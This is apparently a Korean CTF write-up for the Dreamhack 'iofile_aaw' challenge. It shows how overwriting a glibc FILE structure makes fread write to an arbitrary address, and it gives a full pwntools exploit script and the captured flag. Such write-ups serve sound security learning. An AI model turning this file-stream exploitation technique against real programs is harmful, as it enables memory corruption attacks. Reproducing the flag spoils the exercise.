



# G4 · _IO_FILE Arbitrary Address Write

### 1. 문제 확인

`pwnable` 분류의 G4 문제. 입력을 **FILE 구조체 위에 그대로 덮어쓸 수 있고**, 그 뒤 `fread`가 그 조작된 FILE로 파일을 읽는다. FILE의 내부 버퍼 포인터를 위조해, `fread`의 내부 `read`가 **우리가 지정한 주소에 쓰도록** 만든다(임의 주소 쓰기).

<p align="center">
  
</p>

### 2. 코드

```c
char flag_buf[1024];
int  overwrite_me;

int read_flag() {
    FILE *fp = fopen("/home/iofile_aaw/flag", "r");
    fread(flag_buf, 1, sizeof(flag_buf), fp);
    write(1, flag_buf, sizeof(flag_buf));   // 플래그 출력
}

int main() {
    FILE *fp;
    char file_buf[1024];

    fp = fopen("/etc/issue", "r");   // FILE 구조체 하나 생성
    printf("Data: ");
    read(0, fp, 300);                // ★ 입력을 fp(FILE 구조체)에 덮어씀
    fread(file_buf, 1, sizeof(file_buf)-1, fp);   // 조작된 fp로 읽기
    printf("%s", file_buf);

    if (overwrite_me == 0xDEADBEEF)  // 이 전역이 0xDEADBEEF면
        read_flag();                 // 플래그를 읽어 출력
}
```

목표는 전역 `overwrite_me`를 `0xDEADBEEF`로 만드는 것이다. No PIE라 `overwrite_me` 주소(`0x6014a0`)는 고정이다.

### 3. 왜 FILE 구조체를 덮을 수 있는가

```c
fp = fopen("/etc/issue", "r");
```

이 한 줄은:

1. `/etc/issue` 파일을 연다.
2. glibc가 **FILE 구조체를 힙에 하나 만들고**, 그 **주소**를 `fp`에 준다.

이 구조체에는 파일 내용이 아니라 스트림 메타데이터(플래그, 버퍼 포인터, fd 등)가 들어있다. `/etc/issue`는 그냥 **FILE 구조체를 하나 만들려고** 연 것뿐이다.

```c
read(0, fp, 300);
```

`read(0, fp, 300)`은 입력 300바이트를 **`fp` 주소에 쓴다**. `fp`가 FILE 구조체의 주소이므로, 우리 입력이 **그 구조체 멤버들을 통째로 덮는다**. 이게 FILE 위조다. 그래서 payload를 `_IO_FILE` 멤버 순서에 맞춰 만든다.

### 4. payload와 구조체 멤버 대응

```c
struct _IO_FILE {
  int   _flags;          // payload[0]  = 0xfbad2488
  char *_IO_read_ptr;    // payload[1]  = 0
  char *_IO_read_end;    // payload[2]  = 0
  char *_IO_read_base;   // payload[3]  = 0
  char *_IO_write_base;  // payload[4]  = 0
  char *_IO_write_ptr;   // payload[5]  = 0
  char *_IO_write_end;   // payload[6]  = 0
  char *_IO_buf_base;    // payload[7]  = overwrite_me       ← read 목적지
  char *_IO_buf_end;     // payload[8]  = overwrite_me+1024  ← 길이 1024
  char *_IO_save_base;   // payload[9]  = 0
  char *_IO_backup_base; // payload[10] = 0
  char *_IO_save_end;    // payload[11] = 0
  struct _IO_marker *_markers;  // payload[12] = 0
  struct _IO_FILE   *_chain;    // payload[13] = 0
  int _fileno;           // payload[14] = 0   ← stdin(fd 0)에서 읽게
  ...
};
```

0으로 채운 이유:

- **read/write 포인터 전부 0**: 버퍼가 "비었다"고 보이게 만든다. 그래서 `fread`가 버퍼에 읽을 게 없다고 판단해 **underflow(버퍼 채우기)**를 호출한다. 이게 공격 트리거다.
- **`_fileno = 0`**: underflow의 내부 `read`가 **stdin(fd 0)**에서 읽게 한다. 그래야 우리가 두 번째로 보내는 값이 그 read에 들어간다.
- `_IO_buf_base`/`_IO_buf_end`만 의미 있는 값(목적지·길이)으로 둔다.

### 5. `_flags = 0xfbad2488`

```c
#define _IO_MAGIC       0xFBAD0000   /* 매직 넘버 */
#define _IO_NO_READS        0x0004   /* 읽기 금지 */
#define _IO_NO_WRITES       0x0008
#define _IO_LINKED          0x0080   /* 열린 파일 목록에 연결 */
#define _IO_TIED_PUT_GET    0x0400
#define _IO_IS_FILEBUF      0x2000   /* 파일 버퍼 스트림 */
```

`0xfbad2488`을 쪼개면 위에서 해당하는 것만 켜져 있다:

- 상위 `0xfbad0000` = **`_IO_MAGIC`** : 정상 FILE로 보이게 하는 매직.
- `0x2000`(IS_FILEBUF) `|` `0x0400`(TIED_PUT_GET) `|` `0x0080`(LINKED) `|` `0x0008`(NO_WRITES) = `0x2488`.

**중요한 건 하나다: `_IO_NO_READS`(0x4)가 꺼져 있다.** 읽기 금지 비트가 없어야 underflow가 중간에 EOF로 튕기지 않고 `read`까지 내려간다. 나머지는 진짜 stdin이 가진 값을 베껴 "정상 FILE처럼" 보이게 한 위장이다.

### 6. 취약한 부분

`fread` → underflow(`_IO_new_file_underflow`) 안에서 실제 읽기는 이렇게 일어난다:

```c
if (fp->_flags & _IO_NO_READS) { ... return EOF; }   // _flags로 통과시킴
count = _IO_SYSREAD(fp, fp->_IO_buf_base, fp->_IO_buf_end - fp->_IO_buf_base);
```

세 값을 전부 **우리가 조작한 `fp`에서** 검증 없이 가져다 쓴다:

```
read(fp->_fileno, fp->_IO_buf_base, _IO_buf_end - _IO_buf_base)
= read(0, overwrite_me, 1024)
```

즉 stdin에서 받은 바이트가 **`overwrite_me`에 그대로 써진다**. 여기에 `0xDEADBEEF`를 흘려넣으면 `overwrite_me == 0xDEADBEEF`가 참이 되고, `read_flag()`가 플래그를 출력한다.

핵심은 **FILE 구조체 멤버(`_flags`, `_IO_buf_base/_end`, `_fileno`)를 아무 검증 없이 신뢰**한다는 점이다. 구조체를 덮을 수 있으면 `fread` 한 번이 임의 주소 쓰기가 된다.

### 7. 익스플로잇

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
import time
from pwn import *

p = remote("host3.dreamhack.games", 9265)
elf = ELF('./iofile_aaw', checksec=False)
overwrite_me = elf.symbols['overwrite_me']   # 0x6014a0

payload  = p64(0xfbad2488)        # _flags : 매직 + 읽기 허용
payload += p64(0) * 6             # read/write 포인터 전부 0 -> 버퍼 빈 상태 -> underflow 유발
payload += p64(overwrite_me)      # _IO_buf_base : read 목적지
payload += p64(overwrite_me+1024) # _IO_buf_end  : 길이 1024
payload += p64(0) * 5             # save/backup/markers/chain
payload += p64(0)                 # _fileno = 0 (stdin에서 읽게)

p.sendlineafter(b'Data: ', payload)   # [1] fp(FILE 구조체) 위조
time.sleep(1)
p.send(p64(0xDEADBEEF) + b'\x00'*1024)   # [2] underflow의 read(0, overwrite_me, 1024)에 먹임

p.interactive()   # overwrite_me == 0xDEADBEEF -> read_flag() -> 플래그 출력
```

### 8. 실행 결과

<p align="center">
  
</p>

```text
DH{1d60f1036d33746327c204ddb96e2dc7c79a0fcfbc7206e0716abcbb4a326c3c}
```
